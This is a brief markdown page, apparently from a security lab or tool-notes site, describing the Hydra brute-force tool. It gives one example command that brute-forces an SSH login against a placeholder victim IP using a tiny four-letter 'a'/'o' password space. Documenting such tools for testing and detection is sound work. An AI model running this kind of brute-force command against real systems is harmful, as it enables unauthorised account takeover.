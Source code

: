 ```yaml
---
layout: post
title:  "Hydra"
categories: scan deny
summary: Hydra is a brute force tool
---
```


{% include instructions.md %}

### {{page.title}}
Hydra is a brute force tool.

Brute forcing SSH account. Try to brute force 4 length password that contains only letters a and o. Delay is 1 second. Brute forcing is stopped if correct username and password is found.

```shell
# hydra -f -t 1 -l [username] -V -x 4:4:ao [victim ip address] ssh
```
